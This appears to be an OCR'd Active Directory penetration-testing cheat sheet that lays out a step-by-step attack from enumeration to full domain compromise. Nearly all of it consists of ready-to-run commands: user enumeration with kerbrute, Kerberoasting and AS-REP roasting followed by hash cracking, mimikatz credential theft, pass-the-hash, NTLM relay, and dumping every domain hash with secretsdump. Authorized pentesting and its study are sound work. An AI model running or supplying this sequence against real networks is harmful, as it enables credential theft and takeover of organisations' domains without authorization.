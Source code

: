 **🔥 Step-by-Step AD Pentesting Cheat Sheet**

## **1️⃣ Enumeration (Always Start Here!)**

Your goal: **Find Users, Computers, Groups, and AD Misconfigurations.**

🔹 **Basic Enumeration (No Credentials)** ✅ `nmap -p 88,135,139,389,445,464,593,636,3268,3389 --script=ldap* --script=smb* <target>`  
✅ `smbclient -L //target -N` → Check SMB Shares  
✅ `crackmapexec smb <target>` → Check SMB, Users, and Shares  
✅ `kerbrute userenum -d domain.com --dc <DC-IP> usernames.txt` → Find Valid Users

🔹 **Detailed Enumeration (With Credentials)** ✅ `bloodhound-python -u user -p pass -d domain.com -c All -dc-ip <DC-IP>` → Full AD Mapping  
✅ `rpcclient -U 'user%pass' <DC-IP>` → Query AD Info  
✅ `net group "Domain Admins" /domain` → Check Domain Admins  
✅ `net user /domain` → List All Users  
✅ `crackmapexec ldap <DC-IP> -u user -p pass --asreproast` → Check for AS-REP Roastable Accounts

📌 **If You Find Null SMB Shares or Weak Users → Move to Exploitation.**

---

## **2️⃣ Exploitation (Privilege Escalation & Lateral Movement)**

Your goal: **Escalate Privileges from a Low-Level User.**

🔹 **Kerberoasting (If Kerberos Enabled)** ✅ `GetUserSPNs.py -dc-ip <DC-IP> domain/user:pass -request`  
✅ `john --wordlist=rockyou.txt hash.txt`

🔹 **AS-REP Roasting (If User Doesn’t Require Pre-Auth)** ✅ `GetNPUsers.py -dc-ip <DC-IP> -usersfile users.txt domain/ -format hashcat`  
✅ `hashcat -m 18200 hash.txt rockyou.txt --force`

🔹 **Pass-the-Hash / Pass-the-Ticket (Lateral Movement)** ✅ `mimikatz.exe` → `sekurlsa::logonpasswords` → Steal Passwords  
✅ `psexec.py domain/user@target -hashes LM:NT`

🔹 **NTLM Relay Attacks (If SMB Signing is Disabled)** ✅ `ntlmrelayx.py -t smb://target --smb2support`

📌 **If you get a higher-privilege account → Use It for Full Compromise.**

---

## **3️⃣ Full Domain Compromise (Domain Admin Access!)**

Your goal: **Get Domain Admin and Dump All Passwords.**

🔹 **Check if You Are a Domain Admin** ✅ `whoami /groups`  
✅ `net group "Domain Admins" /domain`

🔹 **Dump All AD Hashes (If DA Access)** ✅ `secretsdump.py -dc-ip <DC-IP> domain/admin:password@target`

